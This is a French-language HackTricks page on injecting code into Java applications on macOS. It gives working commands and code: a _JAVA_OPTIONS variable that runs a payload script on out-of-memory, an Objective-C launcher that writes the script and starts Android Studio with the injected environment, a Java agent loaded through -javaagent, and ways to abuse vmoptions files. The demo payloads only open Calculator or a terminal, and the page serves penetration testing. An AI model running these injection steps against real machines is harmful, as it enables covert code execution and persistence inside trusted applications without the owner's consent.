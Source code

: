 # Injection dans les applications Java macOS

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Vous travaillez dans une **entreprise de cybersécurité** ? Vous souhaitez voir votre **entreprise annoncée dans HackTricks** ? ou souhaitez-vous accéder à la **dernière version du PEASS ou télécharger HackTricks en PDF** ? Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* **Rejoignez le** [**💬**](https://emojipedia.org/speech-balloon/) [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez**-moi sur **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de hacking en soumettant des PR au** [**dépôt hacktricks**](https://github.com/carlospolop/hacktricks) **et au** [**dépôt hacktricks-cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Énumération

Trouvez les applications Java installées sur votre système. Il a été remarqué que les applications Java dans le **Info.plist** contiendront certains paramètres java qui contiennent la chaîne **`java.`**, vous pouvez donc rechercher cela :
```bash
# Search only in /Applications folder
sudo find /Applications -name 'Info.plist' -exec grep -l "java\." {} \; 2>/dev/null

# Full search
sudo find / -name 'Info.plist' -exec grep -l "java\." {} \; 2>/dev/null
```
## \_JAVA\_OPTIONS

La variable d'environnement **`_JAVA_OPTIONS`** peut être utilisée pour injecter des paramètres java arbitraires dans l'exécution d'une application compilée java :
```bash
# Write your payload in a script called /tmp/payload.sh
export _JAVA_OPTIONS='-Xms2m -Xmx5m -XX:OnOutOfMemoryError="/tmp/payload.sh"'
"/Applications/Burp Suite Professional.app/Contents/MacOS/JavaApplicationStub"
```
Pour l'exécuter en tant que nouveau processus et non en tant qu'enfant du terminal actuel, vous pouvez utiliser :
```objectivec
#import <Foundation/Foundation.h>
// clang -fobjc-arc -framework Foundation invoker.m -o invoker

int main(int argc, const char * argv[]) {
@autoreleasepool {
// Specify the file path and content
NSString *filePath = @"/tmp/payload.sh";
NSString *content = @"#!/bin/bash\n/Applications/iTerm.app/Contents/MacOS/iTerm2";

NSError *error = nil;

// Write content to the file
BOOL success = [content writeToFile:filePath
atomically:YES
encoding:NSUTF8StringEncoding
error:&error];

if (!success) {
NSLog(@"Error writing file at %@\n%@", filePath, [error localizedDescription]);
return 1;
}

NSLog(@"File written successfully to %@", filePath);

// Create a new task
NSTask *task = [[NSTask alloc] init];

/// Set the task's launch path to use the 'open' command
[task setLaunchPath:@"/usr/bin/open"];

// Arguments for the 'open' command, specifying the path to Android Studio
[task setArguments:@[@"/Applications/Android Studio.app"]];

// Define custom environment variables
NSDictionary *customEnvironment = @{
@"_JAVA_OPTIONS": @"-Xms2m -Xmx5m -XX:OnOutOfMemoryError=/tmp/payload.sh"
};

// Get the current environment and merge it with custom variables
NSMutableDictionary *environment = [NSMutableDictionary dictionaryWithDictionary:[[NSProcessInfo processInfo] environment]];
[environment addEntriesFromDictionary:customEnvironment];

// Set the task's environment
[task setEnvironment:environment];

// Launch the task
[task launch];
}
return 0;
}
```
Cependant, cela déclenchera une erreur sur l'application exécutée, une autre manière plus discrète est de créer un agent java et d'utiliser :
```bash
export _JAVA_OPTIONS='-javaagent:/tmp/Agent.jar'
"/Applications/Burp Suite Professional.app/Contents/MacOS/JavaApplicationStub"

# Or

open --env "_JAVA_OPTIONS='-javaagent:/tmp/Agent.jar'" -a "Burp Suite Professional"
```
{% hint style="danger" %}
Créer l'agent avec une **version Java différente** de celle de l'application peut entraîner le crash de l'exécution de l'agent et de l'application.
{% endhint %}

L'agent peut être :

{% code title="Agent.java" %}
```java
import java.io.*;
import java.lang.instrument.*;

public class Agent {
public static void premain(String args, Instrumentation inst) {
try {
String[] commands = new String[] { "/usr/bin/open", "-a", "Calculator" };
Runtime.getRuntime().exec(commands);
}
catch (Exception err) {
err.printStackTrace();
}
}
}
```
Pour compiler l'agent, exécutez :
```bash
javac Agent.java # Create Agent.class
jar cvfm Agent.jar manifest.txt Agent.class # Create Agent.jar
```
Avec `manifest.txt` :
```
Premain-Class: Agent
Agent-Class: Agent
Can-Redefine-Classes: true
Can-Retransform-Classes: true
```
Et ensuite, exportez la variable d'environnement et exécutez l'application java comme suit :
```bash
export _JAVA_OPTIONS='-javaagent:/tmp/j/Agent.jar'
"/Applications/Burp Suite Professional.app/Contents/MacOS/JavaApplicationStub"

# Or

open --env "_JAVA_OPTIONS='-javaagent:/tmp/Agent.jar'" -a "Burp Suite Professional"
```
## fichier vmoptions

Ce fichier prend en charge la spécification des **paramètres Java** lors de l'exécution de Java. Vous pourriez utiliser certaines des astuces précédentes pour modifier les paramètres java et **faire exécuter des commandes arbitraires par le processus**.\
De plus, ce fichier peut également **inclure d'autres** fichiers avec le répertoire `include`, donc vous pourriez également modifier un fichier inclus.

Encore plus, certaines applications Java chargeront **plus d'un fichier `vmoptions`**.

Certaines applications comme Android Studio indiquent dans leur **sortie où elles recherchent** ces fichiers, comme :
```bash
/Applications/Android\ Studio.app/Contents/MacOS/studio 2>&1 | grep vmoptions

2023-12-13 19:53:23.920 studio[74913:581359] fullFileName is: /Applications/Android Studio.app/Contents/bin/studio.vmoptions
2023-12-13 19:53:23.920 studio[74913:581359] fullFileName exists: /Applications/Android Studio.app/Contents/bin/studio.vmoptions
2023-12-13 19:53:23.920 studio[74913:581359] parseVMOptions: /Applications/Android Studio.app/Contents/bin/studio.vmoptions
2023-12-13 19:53:23.921 studio[74913:581359] parseVMOptions: /Applications/Android Studio.app.vmoptions
2023-12-13 19:53:23.922 studio[74913:581359] parseVMOptions: /Users/carlospolop/Library/Application Support/Google/AndroidStudio2022.3/studio.vmoptions
2023-12-13 19:53:23.923 studio[74913:581359] parseVMOptions: platform=20 user=1 file=/Users/carlospolop/Library/Application Support/Google/AndroidStudio2022.3/studio.vmoptions
```
S'ils ne le font pas, vous pouvez facilement vérifier avec :
```bash
# Monitor
sudo eslogger lookup | grep vmoption # Give FDA to the Terminal

# Launch the Java app
/Applications/Android\ Studio.app/Contents/MacOS/studio
```
Remarquez qu'il est intéressant de voir qu'Android Studio dans cet exemple essaie de charger le fichier **`/Applications/Android Studio.app.vmoptions`**, un emplacement où tout utilisateur du groupe **`admin`** a un accès en écriture.

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Vous travaillez dans une **entreprise de cybersécurité** ? Vous voulez voir votre **entreprise annoncée dans HackTricks** ? ou souhaitez-vous accéder à la **dernière version du PEASS ou télécharger HackTricks en PDF** ? Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* **Rejoignez le** [**💬**](https://emojipedia.org/speech-balloon/) [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez**-moi sur **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de hacking en soumettant des PR au** [**dépôt hacktricks**](https://github.com/carlospolop/hacktricks) **et au** [**dépôt hacktricks-cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
